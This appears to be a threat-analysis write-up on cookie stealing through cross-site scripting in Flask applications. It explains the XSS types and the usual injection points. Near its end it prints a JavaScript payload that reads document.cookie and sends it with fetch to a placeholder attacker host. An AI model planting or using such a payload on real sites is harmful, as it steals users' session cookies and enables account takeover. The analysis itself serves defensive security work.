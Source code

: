 ### 4. Deep Analysis of Attack Tree Path: Exploit Cookie Stealing via Cross-Site Scripting (XSS)

#### 4.1. Vulnerability: Cross-Site Scripting (XSS) in Flask Applications

**Explanation:** Cross-Site Scripting (XSS) is a web security vulnerability that allows an attacker to inject malicious scripts into web pages viewed by other users. In the context of Flask applications, XSS vulnerabilities typically arise when:

*   **Unsafe Handling of User Input:** Flask applications often receive user input through forms, URL parameters, headers, and other sources. If this input is not properly validated and sanitized before being displayed back to users in web pages, it can be exploited for XSS.
*   **Insecure Template Rendering:** Flask uses Jinja2 as its templating engine. While Jinja2 offers auto-escaping by default, developers can inadvertently disable it or use unsafe functions, leading to XSS vulnerabilities if user-controlled data is directly embedded into templates without proper escaping.
*   **Client-Side JavaScript Vulnerabilities:** Although less directly related to Flask itself, vulnerabilities in client-side JavaScript code can also be exploited to perform XSS attacks, especially if the JavaScript interacts with server-side data or cookies.

**Types of XSS:**

*   **Reflected XSS:** The malicious script is injected into the request (e.g., URL parameter) and reflected back in the response. This is often triggered when a user clicks a malicious link.
*   **Stored XSS (Persistent XSS):** The malicious script is stored on the server (e.g., in a database, forum post, comment section) and executed whenever a user views the affected page. This is generally more dangerous as it affects all users viewing the content.
*   **DOM-based XSS:** The vulnerability exists in the client-side JavaScript code itself. The malicious payload manipulates the DOM (Document Object Model) in the user's browser, leading to script execution.

**Relevance to Flask:** Flask applications, like any web application, are susceptible to all types of XSS if developers do not implement proper security measures. The dynamic nature of web applications and the need to handle user input make XSS a common and critical vulnerability.

#### 4.2. Attack Vector: Cookie Stealing via XSS

**Detailed Breakdown:**

1.  **Vulnerability Discovery:** The attacker first identifies an XSS vulnerability in the Flask application. This could be through manual testing, automated scanning, or bug bounty programs. Common injection points in Flask applications include:
    *   Search forms that display search terms without proper encoding.
    *   User profile pages that allow users to input HTML or JavaScript in fields like "About Me."
    *   Error messages that reflect user input directly.
    *   URL parameters used to dynamically generate page content.

2.  **Malicious Script Crafting:** The attacker crafts a malicious JavaScript payload designed to steal cookies. A typical payload would look like this:

    ```javascript
    <script>
        var cookies = document.cookie;
        var attackerURL = "https://attacker.example.com/collect_cookies?c=" + encodeURIComponent(cookies);
        fetch(attackerURL, {mode: 'no-cors'}); // Use no-cors to avoid CORS issues in some cases
    </script>
    ```
